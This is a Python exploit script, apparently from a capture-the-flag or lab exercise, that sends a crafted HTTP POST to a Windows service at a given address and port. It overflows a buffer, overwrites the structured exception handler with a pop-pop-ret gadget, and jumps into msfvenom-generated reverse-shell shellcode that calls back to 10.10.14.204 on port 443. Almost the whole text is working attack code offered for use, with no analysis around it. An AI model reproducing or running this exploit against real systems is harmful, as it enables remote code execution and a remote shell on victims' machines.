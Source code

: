 ```python
def main():
    if len(sys.argv) < 2:
        print(f"USAGE: {sys.argv[0]} ip:port")
        sys.exit()
    else:
        ip, port = sys.argv[1].split(":")
        port = int(port)
        sock = cx(ip,port,0)

    crash_len = 664-4-12
    head = "POST / HTTP/1.1\x0d\x0aContent-Type: application/x-www-form-urlencoded\x0d\x0a\x0d\x0a"
    sled1 = ("\x90" * 0x14)
    shellcode = (
        ## msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.204 LPORT=443 EXITFUNC=thread -b "\x00\x0a" -f c
        "\xba\x92\xee\x4a\x91\xda\xcb\xd9\x74\x24\xf4\x58\x2b\xc9"
        "\xb1\x52\x31\x50\x12\x83\xe8\xfc\x03\xc2\xe0\xa8\x64\x1e"
        "\x14\xae\x87\xde\xe5\xcf\x0e\x3b\xd4\xcf\x75\x48\x47\xe0"
        "\xfe\x1c\x64\x8b\x53\xb4\xff\xf9\x7b\xbb\x48\xb7\x5d\xf2"
        "\x49\xe4\x9e\x95\xc9\xf7\xf2\x75\xf3\x37\x07\x74\x34\x25"
        "\xea\x24\xed\x21\x59\xd8\x9a\x7c\x62\x53\xd0\x91\xe2\x80"
        "\xa1\x90\xc3\x17\xb9\xca\xc3\x96\x6e\x67\x4a\x80\x73\x42"
        "\x04\x3b\x47\x38\x97\xed\x99\xc1\x34\xd0\x15\x30\x44\x15"
        "\x91\xab\x33\x6f\xe1\x56\x44\xb4\x9b\x8c\xc1\x2e\x3b\x46"
        "\x71\x8a\xbd\x8b\xe4\x59\xb1\x60\x62\x05\xd6\x77\xa7\x3e"
        "\xe2\xfc\x46\x90\x62\x46\x6d\x34\x2e\x1c\x0c\x6d\x8a\xf3"
        "\x31\x6d\x75\xab\x97\xe6\x98\xb8\xa5\xa5\xf4\x0d\x84\x55"
        "\x05\x1a\x9f\x26\x37\x85\x0b\xa0\x7b\x4e\x92\x37\x7b\x65"
        "\x62\xa7\x82\x86\x93\xee\x40\xd2\xc3\x98\x61\x5b\x88\x58"
        "\x8d\x8e\x1f\x08\x21\x61\xe0\xf8\x81\xd1\x88\x12\x0e\x0d"
        "\xa8\x1d\xc4\x26\x43\xe4\x8f\x42\x9e\xe8\x83\x3b\x9c\xf4"
        "\x1a\x07\x29\x12\x76\x67\x7c\x8d\xef\x1e\x25\x45\x91\xdf"
        "\xf3\x20\x91\x54\xf0\xd5\x5c\x9d\x7d\xc5\x09\x6d\xc8\xb7"
        "\x9c\x72\xe6\xdf\x43\xe0\x6d\x1f\x0d\x19\x3a\x48\x5a\xef"
        "\x33\x1c\x76\x56\xea\x02\x8b\x0e\xd5\x86\x50\xf3\xd8\x07"
        "\x14\x4f\xff\x17\xe0\x50\xbb\x43\xbc\x06\x15\x3d\x7a\xf1"
        "\xd7\x97\xd4\xae\xb1\x7f\xa0\x9c\x01\xf9\xad\xc8\xf7\xe5"
        "\x1c\xa5\x41\x1a\x90\x21\x46\x63\xcc\xd1\xa9\xbe\x54\xf1"
        "\x4b\x6a\xa1\x9a\xd5\xff\x08\xc7\xe5\x2a\x4e\xfe\x65\xde"
        "\x2f\x05\x75\xab\x2a\x41\x31\x40\x47\xda\xd4\x66\xf4\xdb"
        "\xfc"## 351
    )
    sled2 = ("\x41" * (crash_len - len(sled1) - len(shellcode)))
    nnSEH = (
        "\x66\xbc\x50\xf9"  ## mov sp, 0xf950
        "\xff\xe4"              ## jmp esp
        "\x90\x90\x90\x90\x90\x90"
    ) 
    nSEH = "\x90\x90\xeb\xf0"  ## nasm > jmp short 0xf2 / EBF0 jmp short 0xfffffff2
    SEH = "\xd8\x94\x40"  ## 0x4094d8: pop ecx ; pop ecx ; ret ; 

    buf = f"{head}{sled1}{shellcode}{sled2}{nnSEH}{nSEH}{SEH}"
    resp = sender(sock, buf, 1, 1)


if __name__=="__main__":
    main()
```
